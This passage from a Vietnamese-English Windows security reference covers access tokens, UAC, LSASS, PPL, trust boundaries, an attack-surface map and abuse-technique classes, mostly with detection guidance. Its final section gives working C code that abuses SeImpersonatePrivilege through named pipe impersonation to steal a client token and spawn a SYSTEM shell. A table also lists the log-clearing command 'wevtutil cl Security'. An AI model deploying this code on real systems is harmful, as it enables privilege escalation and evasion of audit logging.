| Typical privileges | SeChangeNotifyPrivilege, SeShutdownPrivilege, ... | SeDebugPrivilege, SeLoadDriverPrivilege, ... |
| TokenElevationType | `TokenElevationTypeLimited` | `TokenElevationTypeFull` |

**UAC policy settings (HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System):**

| Key | Meaning |
|-----|---------|
| `EnableLUA` = 0 | UAC disabled — all admins get full token always |
| `ConsentPromptBehaviorAdmin` | 0=no prompt, 1=credentials, 2=consent prompt, 5=secure desktop consent |
| `ConsentPromptBehaviorUser` | Behavior for non-admin users requesting elevation |

**UAC không phải security boundary:** Microsoft explicitly states UAC is a convenience feature, not a security boundary in the same sense as user/kernel boundary. An exploit can bypass UAC without privilege escalation in the kernel sense — it's elevation within the same user account's linked token pair.

> **Researcher note:** Khi phân tích incident, "process running as Administrator" có thể vẫn là medium IL filtered token. Check `ElevationType` trong token (API: `GetTokenInformation(TokenElevationType)`) hoặc xem Integrity Level column trong Process Explorer. High IL + Administrators group enabled = truly elevated. Medium IL + Administrators as DENY_ONLY = filtered admin.

### 4.9 Logon sessions và LSASS

**Logon session** là authentication context được tạo khi user (hoặc service) authenticate. Mỗi logon session có:
- Unique **LUID** (Locally Unique Identifier) — `AuthenticationId` trong token
- Associated **credential cache** (conceptually — Kerberos tickets, NTLM hashes in LSA memory)
- Linked processes và tokens
- Lifetime: from authentication đến logoff/session expiry

**Logon types quan trọng:**

| Type | Value | Ý nghĩa | Security notes |
|------|-------|---------|----------------|
| Interactive | 2 | Local keyboard/screen logon | Credentials cached trong LSA |
| Network | 3 | Remote access (SMB, etc.) | Credentials NOT cached locally |
| Batch | 4 | Scheduled task | |
| Service | 5 | Service account logon | Service credentials cached |
| NetworkCleartext | 8 | Network logon with cleartext | Basic auth; creds available |
| NewCredentials | 9 | RunAs /netonly | Local token unchanged, remote uses new creds |
| RemoteInteractive | 10 | RDP | Credentials cached |
| CachedInteractive | 11 | Logon with cached domain creds (offline) | Cached verifier used |

**LSASS role:**

`lsass.exe` là user-mode process thực hiện:
- Validate authentication requests (từ winlogon, network, etc.)
- Host authentication packages (msv1_0.dll, kerberos.dll, etc.)
- Manage logon sessions
- Enforce local security policy
- Handle token creation for new logons

LSASS là sensitive process từ defender perspective vì:
- Nó có access đến credential material trong memory (logon session caches, credential provider data)
- Compromise của LSASS có thể affect authentication security
- LSASS access attempts (handle opens từ non-Windows processes) là **high-priority telemetry signal**

**LSASS protection:**

- Windows có thể configure LSASS chạy như PPL (Protected Process Light)
- Registry: `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL` = 1
- Khi enabled, LSASS có protection level — normal processes (kể cả elevated admin) bị hạn chế access
- Sysmon Event ID 10 captures cross-process handle opens với access mask đến lsass.exe

> **Researcher note:** Logon LUID trong token là key forensic correlator. Event Log logon events (Security Event 4624) ghi lại LUID. Token trong memory có `AuthenticationId` (LUID). Process memory dump có thể yield LUID của active logon sessions. Cross-reference: LUID trong Event Log ↔ LUID trong token ↔ LUID trong LSASS logon session list.

### 4.10 AppContainer và capabilities

**AppContainer** là identity model cho UWP apps, browser sandboxes, và sandboxed processes. AppContainer token là heavily restricted:

```
AppContainer token properties:
  - AppContainerSid: unique per-app SID (S-1-15-2-...)
  - Capabilities[]: list of capability SIDs for allowed resources
  - Low integrity level (usually)
  - No dangerous privileges
  - Token type: Primary + AppContainer flag set
  - Default: DENY access to most objects

Access to resource requires:
  Object DACL: Capability SID → allowed
  AND Subject token: that Capability SID present
```

**Common capability SIDs:**

| Capability | SID prefix | Allows |
|-----------|-----------|--------|
| `internetClient` | S-1-15-3-1 | Outbound network connections |
| `privateNetworkClientServer` | S-1-15-3-3 | Private network access |
| `picturesLibrary` | S-1-15-3-4 | Access to Pictures library |
| `musicLibrary` | S-1-15-3-5 | Access to Music library |
| `documentsLibrary` | S-1-15-3-6 | Access to Documents library |
| `webcam` | S-1-15-3-3000... | Camera access |
| `microphone` | S-1-15-3-3001... | Mic access |

**Researcher angle:**

- AppContainer token shape là distinctly different từ normal token: AppContainerSid field non-null, Capabilities present, very low IL.
- Analysis của AppContainer process requires mapping capabilities to allowed operations — not just checking user SID.
- Broker process (higher privilege, outside sandbox) communicates với AppContainer — broker security assumptions matter.
- AppContainer SID can appear in file/registry ACLs as allowed principal.

### 4.11 Protected Process và PPL

**Protected Process (PP)** và **Protected Process Light (PPL)** là mechanism kernel enforces restrictions on handle access — beyond DACL.

**Protection levels (signer types) — giảm dần:**

```
WinTcb (Windows TCB — highest)
WinSystem
WinAudio
Windows (general Windows components)
WinTcbLight (PPL light)
Authenticode (third-party signed — EDR/AV can use this)
Antimalware
None (unprotected)
```

**Access restrictions:**

```
Protected Process:
  → Blocks PROCESS_TERMINATE, PROCESS_VM_WRITE, PROCESS_CREATE_THREAD, etc.
     from lower-protection-level callers
  → Even SYSTEM account cannot open with full access if caller is unprotected
  → Kernel enforces via PsTestProtectedProcessIncompatibility

Example:
  lsass.exe (PPL, Lsa signer)
  Attacker process (unprotected, SYSTEM token)
  → OpenProcess(PROCESS_VM_READ, lsass_pid) → FAIL (STATUS_ACCESS_DENIED)
  → Even if DACL allows it, PP check fails first
```

**Where protection level is stored:**

`EPROCESS.Protection` (`_PS_PROTECTION` struct):
```c
typedef struct _PS_PROTECTION {
    union {
        UCHAR Level;     // combined value
        struct {
            UCHAR Type : 3;    // PP=2, PPL=1
            UCHAR Audit : 1;
            UCHAR Signer : 4;  // WinTcb=7, Windows=5, Antimalware=3, etc.
        };
    };
} PS_PROTECTION;
```

**Researcher angle:**

- `!process <addr> 0` in WinDbg shows Protection field.
- Process Explorer chỉ có thể open PPL processes với limited access — column "Protection" shows PPL level.
- PPL restricts handle access — DACL is secondary check. Access attempt telemetry (Sysmon 10) shows the attempt even if denied.
- EDR/AV drivers can run as PPL (Antimalware level) to protect their own processes from interference.

---

## 5. Important Windows Components / Structures

| Component | Role | Researcher angle | Useful tools |
|-----------|------|------------------|--------------|
| **Security Reference Monitor** | Kernel enforcement of access checks — token + SD → decision | Core engine — every file open, handle open goes through here | WinDbg `!token`, `!sd`, `!acl` |
| **LSASS** (`lsass.exe`) | Local Security Authority — authentication, logon sessions, security policy | Sensitive user-mode process; high-priority telemetry target | Process Explorer, Sysmon Event 10, Event Log |
| **Access token** (`_TOKEN`) | Carries subject security context: SIDs, privileges, IL, logon | Per-process (and per-thread) security state | `whoami /all`, Process Explorer Security tab, WinDbg `!token` |
| **Security descriptor** | Object security state: owner, DACL, SACL, IL label | Per-object access control definition | `icacls`, AccessChk, WinDbg `!sd` |
| **DACL** | Discretionary ACL — list of Allow/Deny ACEs | Primary access control mechanism | `icacls`, AccessChk, `Get-Acl`, WinDbg `!acl` |
| **SACL** | System ACL — audit ACEs | Audit configuration; requires audit policy to generate events | `icacls`, auditpol |
| **ACE** | One rule in ACL (Allow/Deny/Audit + SID + access mask) | Granular unit of access control | `icacls`, AccessChk |
| **SID** | Binary security identifier for principals | Real identity — map username ↔ SID for analysis | `whoami /user`, `wmic useraccount get`, WinDbg |
| **Privilege** | System-wide capability in token | High-impact: SeDebug, SeLoadDriver, SeImpersonate | `whoami /priv`, Process Explorer, `!token` |
| **Logon session** | Authentication context (LUID) grouping tokens and processes | Correlator between Event Log 4624 and token AuthenticationId | Event Log Security, WinDbg, memory forensics |
| **AppContainer token** | Restricted token with capability-based access | Distinct shape — AppContainerSid + Capabilities | Process Explorer, `whoami /groups` in AppContainer |
| **Capability SID** | Special SID in AppContainer allowing specific resource | Maps to object ACL entries | WinObj, AccessChk |
| **Service SID** | Per-service SID (`S-1-5-80-...`) for ACL entries | Allows per-service resource isolation | `sc showsid <name>`, Process Explorer |
| **Object manager security** | Security descriptors on kernel objects (processes, threads, events, sections...) | Object handles carry granted access mask | WinDbg `!handle`, `!object`, AccessChk |
| **Process protection (PPL)** | Kernel struct limiting handle access even from SYSTEM | Beyond DACL — kernel enforced | Process Explorer "Protection" col, WinDbg `!process` |
| **Audit policy** | System setting controlling which events generate Security Event Log entries | Without policy, no events — even if SACL set | `auditpol /get /category:*` |
| **Event Log Security channel** | Primary telemetry for logon, privilege, object access, policy events | Event IDs 4624, 4648, 4672, 4697, 4663... | Event Viewer, wevtutil, SIEM |
| **Sysmon-style telemetry** | Enhanced process/file/network/registry/access event collection | Process access (Event 10), file create (11), network (3) | Sysmon + SIEM |
| **ETW security providers** | `Microsoft-Windows-Security-Auditing`, `Microsoft-Windows-Threat-Intelligence` | Deep token/handle events | logman, ETW consumers |

### 5.1 Security Reference Monitor

**SRM** là kernel-mode component (`nt!SepAccessCheck` và related functions) thực hiện access check logic:

1. Maps generic rights to object-specific rights
2. Checks mandatory integrity
3. Processes DACL ACEs in order
4. Checks privileges if relevant
5. Returns NTSTATUS và granted access mask

SRM không là policy engine — nó enforce policy được embedded trong token và security descriptor. Policy decisions (what groups user belongs to, what privileges are granted) happened at logon time và là responsibility của LSASS.

**SRM interacts with:**
- Object Manager — objects that have security descriptors
- I/O Manager — file/device access checks
- Process Manager — process/thread handle checks
- Registry manager — registry key access

### 5.2 LSASS

`lsass.exe` (Local Security Authority Subsystem Service):

- Runs in user mode — not kernel driver
- Hosts security support provider (SSP) DLLs: `msv1_0.dll` (NTLM), `kerberos.dll`, `tspkg.dll`, `wdigest.dll` (legacy), etc.
- Processes authentication requests từ winlogon, network stack, etc.
- Creates logon sessions và tokens
- Enforces account policies (lockout, password complexity)
- Handles `LsaLogonUser` API calls
- Manages per-session credential state

**Security relevance:** LSASS holds logon session state. Any process that can read LSASS memory has potential access to cached credential material. This is why:
- LSASS access attempts are high-signal telemetry
- PPL for LSASS reduces attack surface
- `SeDebugPrivilege` + LSASS = sensitive combination
- Sysmon Event 10 targeting lsass.exe = immediate investigation signal

**Defender approach:** Monitor Event ID 4663 (with SACL), Sysmon Event 10 (OpenProcess to lsass), and process access events. Baseline: which processes legitimately open lsass handles? Typically: antivirus/EDR drivers (kernel-level, not visible as process handle), WerFault.exe (crash dump), Task Manager (limited info read).

### 5.3 Tokens as runtime security state

Token is a runtime kernel object — it reflects security state at a point in time, but can change:

- `AdjustTokenPrivileges` — enable/disable privileges
- `AdjustTokenGroups` — disable groups
- Impersonation state changes per-thread
- `ImpersonateLoggedOnUser` — temporarily take on another identity
- `CreateRestrictedToken` — permanently reduce capabilities

**Implications for forensics:**
- Token snapshot in memory dump reflects state at dump time
- Event Log 4672 "Special Privileges Assigned" fires at logon — static logon snapshot
- Runtime changes (AdjustTokenPrivileges) may not generate events unless privilege use auditing enabled
- Cross-thread impersonation changes are transient — hard to capture unless sensor is present at moment

### 5.4 Security descriptors on different object types

| Object type | Where SD stored | How to inspect | Common security issues |
|-------------|----------------|----------------|----------------------|
| File/directory | NTFS $SECURITY attribute | `icacls`, `Get-Acl`, AccessChk | World-writable directories in PATH |
| Registry key | Inline in hive | `Get-Acl HKLM:\...`, AccessChk | World-writable service registry keys |
| Process | In kernel `_OBJECT_HEADER` | WinDbg `!object`, AccessChk | Overly permissive process DACL (rare) |
| Thread | In kernel `_OBJECT_HEADER` | WinDbg | Same as process |
| Service | Service Manager internal | AccessChk `-c <service>`, `sc sdshow` | Weak service DACL → modify service |
| Named pipe | `\Device\NamedPipe\<name>` | WinObj, AccessChk | Server impersonation context |
| Device object | `\Device\<name>` | WinObj Properties → Security | World-accessible = IOCTL surface |
| Section/event/mutex | `\BaseNamedObjects\<name>` | WinObj | Named object access |
| Token | Kernel object | `!token`, `GetTokenInformation` | Token handle leaks |

---

## 6. Trust Boundaries



### 6.1 User identity boundary

- User SID defines baseline identity
- Group SIDs extend access context — membership in `Administrators` group changes what DACL ACEs apply
- Local account vs domain account vs service account vs computer account all have different SID formats and trust
- Username alone is weak indicator — same SID may be different user on different machine

### 6.2 Admin vs elevated admin boundary

- UAC creates split token: **filtered medium IL** (everyday work) vs **full high IL** (elevated)
- Even a full admin running in normal session has filtered token — cannot access high-IL objects for write
- Elevation happens per-process via UAC prompt — not per-session
- `whoami /groups` shows: filtered admin = Administrators SID with `DENY_ONLY` attribute; elevated admin = Administrators SID with `ENABLED`

### 6.3 User mode vs kernel mode boundary

- SYSTEM is a user-mode account — it has broad user-mode access but cannot directly touch kernel memory
- Kernel mode (Ring 0) is CPU privilege level — only drivers and kernel code run there
- User-mode SYSTEM can communicate with kernel via syscalls — subject to kernel access checks
- A SYSTEM process cannot bypass kernel checks by virtue of being SYSTEM — it can bypass many user-mode checks, but not kernel protection mechanisms (HVCI, PatchGuard, etc.)

### 6.4 Process / thread impersonation boundary

- Thread can carry impersonation token that overrides process token for access checks
- Service processes frequently impersonate clients — thread-level identity may differ from process-level
- Impersonation level controls depth: `SecurityImpersonation` = local access as client; `SecurityDelegation` = remote access as client
- `RevertToSelf` removes impersonation — thread returns to process token
- Detection gap: process monitoring shows process token; thread monitoring (kernel callback or ETW) needed to see impersonation

### 6.5 Object access boundary

- Every securable object has security descriptor
- Access check at open time determines handle rights — not re-checked at each operation
- Handle access mask (granted at open) is invariant for the handle lifetime
- Handle inheritance and duplication can transfer access to lower-privileged processes (as discussed in Ch.6)
- Object owner has implicit READ_CONTROL and WRITE_DAC regardless of DACL

### 6.6 Integrity boundary

- Low IL process cannot write to Medium IL object even if DACL allows
- Browser tabs (Low IL) use Low IL label on their profile directories — high-IL objects inaccessible for write
- Even SYSTEM processes at System IL respect integrity labels on objects (label on object, not token)
- Integrity label can be explicitly set on objects: `icacls file.txt /setintegritylevel Low`

### 6.7 Service account boundary

| Account | IL | Network access | Local access scope | Risk profile |
|---------|-----|----------------|-------------------|-------------|
| SYSTEM | System | Machine credentials | Broad local access | High — broad access |
| LOCAL SERVICE | Medium | Anonymous | Limited local | Moderate |
| NETWORK SERVICE | Medium | Machine credentials | Limited local | Moderate |
| Virtual service account (`NT SERVICE\name`) | Medium | Machine credentials | Limited — service SID | Lower — per-service isolation |
| MSA / gMSA | Medium/High | Account credentials | Service-specific | Varies |

Service SID (`NT SERVICE\svcname` = `S-1-5-80-...`) can be added to ACLs to grant specific service access without granting full NETWORK SERVICE or SYSTEM access.

### 6.8 AppContainer boundary

- AppContainer processes: Low or Medium IL, AppContainerSid, Capabilities, no dangerous privileges
- Access to resource requires: Capability in token AND resource ACL grants that Capability SID
- AppContainer cannot open processes outside sandbox (no PROCESS_VM_READ on non-AppContainer targets without specific ACL)
- Broker model: AppContainer communicates with higher-privileged broker via specific IPC channels — broker validates requests before acting

### 6.9 PPL boundary

- PP and PPL create a protection level hierarchy enforced in kernel
- Access requires: caller protection level ≥ target protection level (conceptually)
- PPL LSASS: only PPL processes with equal or higher signer can open with sensitive access
- AV/EDR processes can register as PPL Antimalware to protect themselves from manipulation
- Even SYSTEM (user-mode) cannot open PPL-protected process with `PROCESS_VM_READ` if caller is unprotected

### 6.10 Audit boundary

- Actions may be allowed but still auditable via SACL
- SACL must be explicitly configured on object AND audit policy must be enabled
- `auditpol /get /category:*` shows current audit policy
- "No event in Security Log" does NOT mean action didn't happen — it may mean audit policy disabled or SACL not set
- EDR sensors may capture activity independently of Event Log audit policy

---

## 7. Attack Surface Map

> **Note:** Threat model / attack surface taxonomy cho researcher. Không phải exploitation guide.

| Surface | Examples | Boundary crossed | What to observe | Research value |
|---------|----------|-----------------|-----------------|----------------|
| **File ACLs** | World-writable `.exe` in `%PATH%`, service binary | User/service identity | `icacls`, AccessChk; write access from non-owner | Binary planting, service hijack |
| **Registry ACLs** | Writable `HKLM\...\Services\<svc>\ImagePath` | Admin/user boundary | `Get-Acl`, AccessChk on service keys | Persistence via registry |
| **Service permissions** | Writable service DACL (SDDL) | User/service boundary | `AccessChk -c`, `sc sdshow` | Service config modification |
| **Device object ACLs** | `\\.\Driver` with Everyone: GENERIC_WRITE | User→kernel driver boundary | WinObj, device ACL | IOCTL attack surface (Ch.6) |
| **Named pipe ACLs** | World-readable/writable pipe ACL | IPC boundary | Pipe create/connect telemetry | Impersonation, data capture |
| **Process handle access** | OpenProcess with PROCESS_VM_READ/WRITE | Process isolation | Handle create events, Sysmon 10 | Injection, memory read |
| **Thread handle access** | OpenThread with THREAD_SET_CONTEXT | Thread isolation | Handle create, ETW-TI | APC injection, context manipulation |
| **Token handles** | OpenProcessToken with TOKEN_ADJUST_PRIVILEGES | Token security | Token handle access | Privilege escalation |
| **Token privileges** | SeImpersonatePrivilege in service context | Privilege boundary | Privilege inventory; Event 4672 | Token impersonation |
| **Impersonation flows** | Named pipe server impersonating client | Thread/process identity | Impersonation APIs called, RPC context | Privilege escalation via impersonation |
| **RPC services** | DCOM/RPC interface with weak access | Service identity boundary | RPC interface registry, COM object CLSID | COM/RPC privilege paths |
| **COM services** | Elevated COM objects with broad activation | UAC elevation boundary | DCOM activation auditing, COM object ACLs | UAC bypass via COM |
| **Scheduled tasks** | Task running as SYSTEM with writable action | Scheduler/user boundary | Task XML action path, ACL of binary | Persistence, privilege escalation |
| **Service accounts** | SYSTEM/LocalSystem service with writable config | Service/user boundary | Service config, binary path ACL | SYSTEM code execution |
| **AppContainer capabilities** | Overpermitted capability manifest | AppContainer boundary | Token capabilities, resource ACLs | Sandbox breakout surface |
| **PPL access attempts** | Any OpenProcess to lsass.exe or AV process | PPL kernel boundary | Sysmon Event 10, ETW-TI | Credential access telemetry |
| **Audit policy** | Disabled object access auditing | Audit/logging boundary | `auditpol` output; Security Log gap | Telemetry blind spots |
| **Security Log tampering** | `wevtutil cl Security` | Log integrity | Event 1102 (log cleared), Sysmon 4616 | Anti-forensics |
| **Logon sessions** | New interactive logon, runas, scheduled task logon | Authentication boundary | Event 4624, 4648, 4672, logon type | Lateral movement, privilege |
| **LSASS access** | Any handle open to lsass.exe process | PPL + process isolation | Sysmon 10 targeting lsass, Event 4663 | Credential access pattern |
| **Driver load privilege** | Process with SeLoadDriverPrivilege enabled | Kernel code execution | Privilege use events, driver install events | BYOVD, kernel capability |
| **SeImpersonatePrivilege contexts** | Service process with SeImpersonate can impersonate clients | Service/user boundary | Privilege inventory, token capture patterns | Impersonation escalation class |
| **SeDebugPrivilege contexts** | Admin process enabling SeDebug | Process isolation | Event 4673, access to protected processes | Memory access, code injection |
| **UAC elevation boundary** | COM activation, ShellExecute runas | Medium→High IL | UAC event, consent.exe, elevation type | Elevation paths |
| **IL boundary** | Low IL process opening Medium IL resource | Integrity layer | Access denied results, process IL | Sandbox integrity |

---

## 8. Abuse Techniques — Code Examples

### 8.1 Weak ACL class

**Cơ chế:**

Object (file, registry key, service, device, named pipe) có DACL quá permissive — grants significant access to broad principals.

**Common patterns:**

| Pattern | Example | Security impact |
|---------|---------|-----------------|
| World-writable service binary | `icacls svc.exe` → Everyone: Modify | Replace binary → code runs as service account |
| World-writable service registry key | `HKLM\...\Services\svc\ImagePath`: Authenticated Users: Write | Change ImagePath → arbitrary binary loaded as service |
| World-writable directory in PATH | `C:\ProgramData\Vendor\` in system PATH, writable | DLL planting or binary planting |
| Null DACL on object | Named pipe, section, mutex with null DACL | Anyone can open, anyone can write |
| Weak device object ACL | `\\.\ThirdPartyDriver`: Everyone: GENERIC_WRITE | Any user can reach IOCTL interface |

**Detection approach:**
- AccessChk survey: `accesschk -w -s -d "Authenticated Users" C:\` — find writable paths in system dirs
- Service ACL: `accesschk -c * -l` — find services any user can modify
- Registry: `accesschk HKLM\System\CurrentControlSet\Services` — find writable service keys

**Inheritance mistakes:** Parent directory has permissive ACE → all children inherit → unintended broad access. Fix requires explicit inheritance break + new ACL on child.

### 8.2 Privilege misuse class

**High-impact privileges alter security assumptions:**

| Privilege | Impact when enabled | Telemetry |
|-----------|---------------------|----------|
| `SeDebugPrivilege` | Open protected processes for full access; bypass some handle restrictions | Event 4673 "Sensitive Privilege Use"; Sysmon 10 on target processes |
| `SeLoadDriverPrivilege` | Load arbitrary kernel driver — kernel code execution | Event 4673; driver install Event 7045/6 |
| `SeImpersonatePrivilege` | Impersonate any authenticated client token | Token impersonation; service context analysis |
| `SeBackupPrivilege` | Read any file regardless of DACL (backup semantics) | Unusual file access by backup flag; Event 4673 |
| `SeRestorePrivilege` | Write any file regardless of DACL | Same as backup |
| `SeTakeOwnershipPrivilege` | Take ownership → modify DACL → gain access | Event 4670 "Permissions changed"; 4673 |
| `SeSecurityPrivilege` | Read/write SACL — can silence auditing | Audit policy tampering |
| `SeCreateTokenPrivilege` | Create tokens from scratch — arbitrary SID/privilege set | Extremely rare; immediate investigation signal |
| `SeTcbPrivilege` | Act as part of OS — `LogonUser` without normal restrictions | Very high impact; few processes need this |

**Key insight:** Service processes (svchost.exe, dllhost.exe) often have `SeImpersonatePrivilege` by virtue of running as SYSTEM or LOCAL SERVICE. This is normal and necessary for RPC/COM functionality. Anomalous = non-service binary with this privilege in non-service context.

**Event 4673:** "A privileged service was called" — logs when specific sensitive privileges are used. Requires audit policy: Privilege Use → Sensitive Privilege Use = Success/Failure.

### 8.3 Token impersonation class

**Threat model:**

Services and RPC endpoints often impersonate clients to perform operations on their behalf. The security surface here is:

1. **Named pipe impersonation:** Pipe server calls `ImpersonateNamedPipeClient()` → thread gets client's token → can access resources as client. If server has `SeImpersonatePrivilege` and can get a high-privileged client to connect → gains high-privileged token.

2. **RPC/COM impersonation:** `RpcImpersonateClient()`, `CoImpersonateClient()` — service threads impersonate RPC/COM callers. Security contract: service should only use impersonation for the duration of the specific client's request.

3. **Token handle via OpenProcessToken + DuplicateTokenEx:** Process with `SeDebugPrivilege` can open high-privileged process → get token → impersonate.

**Detection:**

- Sysmon Event 10 (process access) targeting privileged processes
- Event 4648 "Logon using explicit credentials" — new logon in impersonation context
- Unusual impersonation level (`SecurityDelegation` from unexpected context)
- Thread-level impersonation is hard to observe without kernel-level instrumentation

> **Researcher note:** Standard process monitoring (Task Manager, Process Explorer) shows primary token of process. Thread impersonation is invisible unless sensor explicitly captures thread token. EDR sensors using `PsSetCreateThreadNotifyRoutine` or ETW-TI can observe thread context changes.

### 8.4 Service account boundary class

**Services as security principals:**

Services run under specific accounts — their security context defines blast radius of compromise:

```
Service running as SYSTEM → compromise = full local system access
Service running as LocalService → compromise = limited local access
Service running as virtual service account → compromise = service-specific access
Service running as domain account → compromise = network access as that account
```

**Weak service configuration patterns (conceptual):**

| Weakness | Where | Consequence |
|---------|-------|------------|
| Writable service binary path | File system ACL | Replace binary → arbitrary code as service account |
| Writable service ImagePath in registry | Registry ACL | Change path → load different binary |
| Weak service DACL | Service control manager | Non-admin can change service config → binary path |
| Unquoted service path with spaces | Registry ImagePath | Path parsing → alternative binary load |

**Service SID use for defense:** Per-service SIDs (`NT SERVICE\svcname`) allow granting specific service access to only what it needs — without granting full SYSTEM or NETWORK SERVICE. Well-designed services use service SIDs with minimal ACLs on their resources.

### 8.5 UAC confusion class

**Three common misunderstandings:**

1. **"Admin = elevated"** — Not true. Admin without elevation is medium IL filtered token. Many admin operations fail unless elevated. Running as admin in normal session ≠ running elevated.

2. **"UAC is a security boundary"** — Microsoft explicitly doesn't classify UAC as a security boundary in the same way as user/kernel boundary. UAC bypasses (running code as same admin user to get elevated token without prompt) are not considered vulnerabilities in the same class as privilege escalation from non-admin.

3. **"UAC disabled → same as having admin"** — When UAC is disabled (`EnableLUA=0`), admin users get full token always — no split. This increases attack surface because any code running as that admin immediately has full access.

**Detection relevance:**
- Check `ElevationType` in process token (API: `GetTokenInformation(TokenElevationType)`)
- `TokenElevationTypeLimited` = filtered medium IL (normal admin session)
- `TokenElevationTypeFull` = elevated high IL (elevated process or UAC disabled)
- Audit elevation events: Event 4703 (token right adjusted), 4672 (special privileges at logon)

### 8.6 Sensitive process access class

**LSASS và protected processes:**

LSASS is the canonical sensitive process target. Monitor:

| Signal | Event source | What it shows |
|--------|-------------|---------------|
| OpenProcess to lsass.exe | Sysmon Event 10 | Access attempt + access mask + caller |
| File read on lsass dump | Minifilter Event, Event 4663 | Dump file access |
| SeDebugPrivilege enabled | Event 4672/4673 | Privilege that enables lsass access |
| Unusual parent of lsass access | Process tree analysis | Non-Windows processes accessing |

**Access mask significance:**

```
PROCESS_VM_READ (0x0010): can read memory
PROCESS_ALL_ACCESS (0x1FFFFF): full access
PROCESS_CREATE_THREAD (0x0002): can inject thread
PROCESS_DUP_HANDLE (0x0040): can duplicate handles
PROCESS_QUERY_INFORMATION (0x0400): can query info, open token
```

Even if access fails (PPL blocks), the attempt itself is telemetry. `STATUS_ACCESS_DENIED` on LSASS handle open should trigger investigation.

**Typical legitimate LSASS accessors (baseline):**

- AV/EDR kernel components (via kernel path, not user-mode OpenProcess)
- WerFault.exe (crash dump collection)
- MsMpEng.exe (Defender — read-only scan)
- Task Manager (minimal info read)

Any non-baseline process opening lsass = investigate.

### 8.7 AppContainer capability class

**Security model consideration:**

AppContainer is not a perfect sandbox — it's a strong restriction with known capability-based exceptions. Security analysis must understand:

1. **Capability mapping:** What resources does this AppContainer's manifest declare? Which capability SIDs appear in token? These map to file/registry ACLs that allow access.

2. **Broker trust boundary:** AppContainer often has elevated broker process (full medium/high token) that handles privileged operations. Broker logic is outside sandbox — broker bugs are security surface.

3. **Named object namespace:** AppContainer processes can access objects in `\Sessions\N\AppContainerNamedObjects\<AppContainerSid>\` — scoped namespace. Named object naming bugs can create access from outside.

4. **File/COM brokering:** Some file operations go through broker — broker authorization logic matters.

**Detection:** AppContainer processes have distinct token shape — identifiable by AppContainerSid presence. Process monitor: unusual AppContainer process accessing capabilities beyond declared manifest = investigation.

### 8.8 Audit / policy blind spot class

**Attacker benefit from missing audit:**

| Missing configuration | Consequence |
|-----------------------|-------------|
| Object access audit disabled | No Event 4663 for file read/write |
| SACL not set on object | Object access not audited even if policy enabled |
| Security log cleared | `Event ID 1102` generated — but gap in historical evidence |
| Security log wrapping | Old events lost if log size too small |
| Privilege use audit disabled | No Event 4673 for sensitive privilege use |
| Logon events not retained | No baseline of authentication activity |

**Defense:**
- `auditpol /get /category:*` → audit all categories; key: Object Access, Privilege Use, Account Logon, Logon/Logoff
- Forward Security Events to SIEM with retention policy — don't rely on local log
- EDR provides independent telemetry — SIEM + EDR provides defense-in-depth
- Monitor `Event 1102` (log cleared) as immediate alert

**Key principle:** Absence of Windows Event Log entry is not proof that action didn't happen. It may mean audit policy not configured, SACL missing, or log was cleared. EDR and memory forensics may reveal activity absent from Event Log.

---

### 8.9 Named Pipe Impersonation — Working Code (SeImpersonatePrivilege Abuse)

**Concept:** Tạo named pipe server, lừa high-privilege client connect, impersonate token của client. Đây là cơ sở của toàn bộ Potato family (JuicyPotato, PrintSpoofer, GodPotato).

**Yêu cầu:** `SeImpersonatePrivilege` — thường có với: IIS worker process, MSSQL service, WCF service, bất kỳ service chạy dưới `LocalService` hoặc `NetworkService`.

```c
#include <windows.h>
#include <stdio.h>
#include <sddl.h>

// Phía attacker: Named pipe server chờ high-priv client connect
HANDLE ImpersonateViaPipe(const wchar_t* pipeName) {
    // Security descriptor: Everyone có thể connect
    SECURITY_DESCRIPTOR sd;
    InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    SetSecurityDescriptorDacl(&sd, TRUE, NULL, FALSE); // NULL DACL = everyone access

    SECURITY_ATTRIBUTES sa = { sizeof(sa), &sd, FALSE };

    // Tạo named pipe
    HANDLE hPipe = CreateNamedPipeW(
        pipeName,               // \\.\pipe\MyPipe
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        1,                      // max 1 instance
        4096, 4096,             // buffer sizes
        0,                      // default timeout
        &sa);

    if (hPipe == INVALID_HANDLE_VALUE) {
        printf("[-] CreateNamedPipe failed: %lu\n", GetLastError());
        return NULL;
    }
    printf("[*] Pipe created: %ls\n[*] Waiting for high-priv client...\n", pipeName);

    // Block chờ client connect (đây là nơi trick service kết nối vào)
    ConnectNamedPipe(hPipe, NULL);
    printf("[+] Client connected!\n");

    // Impersonate token của client thread
    if (!ImpersonateNamedPipeClient(hPipe)) {
        printf("[-] ImpersonateNamedPipeClient failed: %lu\n", GetLastError());
        CloseHandle(hPipe);
        return NULL;
    }

    // Lấy impersonated token từ current thread
    HANDLE hToken = NULL;
    OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);

    // Kết thúc impersonation (trả về token của chính mình)
    RevertToSelf();
    CloseHandle(hPipe);

    // In thông tin token lấy được
    if (hToken) {
        // Kiểm tra xem có phải SYSTEM token không
        char tokenUser[256];
        DWORD tokenUserSize = sizeof(tokenUser);
        TOKEN_USER* pTokenUser = (TOKEN_USER*)tokenUser;
        GetTokenInformation(hToken, TokenUser, pTokenUser, tokenUserSize, &tokenUserSize);

        LPWSTR sidStr;
        ConvertSidToStringSidW(pTokenUser->User.Sid, &sidStr);
        printf("[+] Got token for SID: %ls\n", sidStr);
        LocalFree(sidStr);
    }

    return hToken; // Token của client — có thể là SYSTEM
}

// Dùng token để spawn SYSTEM shell
BOOL SpawnShellWithToken(HANDLE hToken) {
    STARTUPINFOW si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };

    // CreateProcessWithTokenW — spawn process với token lấy được
    if (!CreateProcessWithTokenW(
        hToken,
        LOGON_WITH_PROFILE,
        NULL,
        L"C:\\Windows\\System32\\cmd.exe",
        CREATE_NEW_CONSOLE,
        NULL, NULL,
        &si, &pi)) {
        printf("[-] CreateProcessWithTokenW failed: %lu\n", GetLastError());
        return FALSE;
    }
    printf("[+] Spawned cmd.exe with stolen token! PID: %lu\n", pi.dwProcessId);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    return TRUE;
}

// Usage:
// HANDLE tok = ImpersonateViaPipe(L"\\\\.\\pipe\\MyEvilPipe");
// SpawnShellWithToken(tok);
```

**Đây là cơ sở của PrintSpoofer:**
```
PrintSpoofer flow:
